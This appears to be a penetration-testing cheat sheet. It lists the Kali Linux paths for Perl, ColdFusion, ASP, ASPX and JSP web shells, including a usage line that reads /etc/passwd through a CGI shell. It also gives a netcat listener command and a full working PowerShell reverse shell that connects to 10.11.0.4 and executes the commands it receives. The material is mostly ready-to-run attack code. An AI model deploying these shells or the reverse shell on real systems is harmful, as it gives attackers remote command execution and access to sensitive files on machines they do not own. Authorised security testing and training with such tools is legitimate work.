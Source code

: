 | Command                                          | Description                                                                       |
| ------------------------------------------------ | --------------------------------------------------------------------------------- |
| /usr/share/webshells/perl/ perl-reverse-shell.pl | Pen Test Monkey - Perl Reverse Shell                                              |
| /usr/share/webshells/ perl/perlcmd.cgi           | Pen Test Monkey, Perl Shell. Usage: http://target.com/perlcmd.cgi?cat /etc/passwd |

### Kali Cold Fusion Shell

Kali Coldfusion Shell:

| Command                             | Description                       |
| ----------------------------------- | --------------------------------- |
| /usr/share/webshells/cfm/cfexec.cfm | Cold Fusion Shell - aka CFM Shell |

### Kali ASP Shell

Classic ASP Reverse Shell + CMD shells:

| Command                   | Description     |
| ------------------------- | --------------- |
| /usr/share/webshells/asp/ | Kali ASP Shells |

### Kali ASPX Shells

ASP.NET reverse shells within Kali

| Command                    | Description      |
| -------------------------- | ---------------- |
| /usr/share/webshells/aspx/ | Kali ASPX Shells |

### Kali JSP Reverse Shell

Kali JSP Reverse Shell:

| Command                                  | Description            |
| ---------------------------------------- | ---------------------- |
| /usr/share/webshells/jsp/jsp-reverse.jsp | Kali JSP Reverse Shell |

## Powershell

### PowerShell Reverse Shells

setup a netcat listener:

```
nc -nvlp 4444
```

this code is a reverse shell in powershell:

```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```
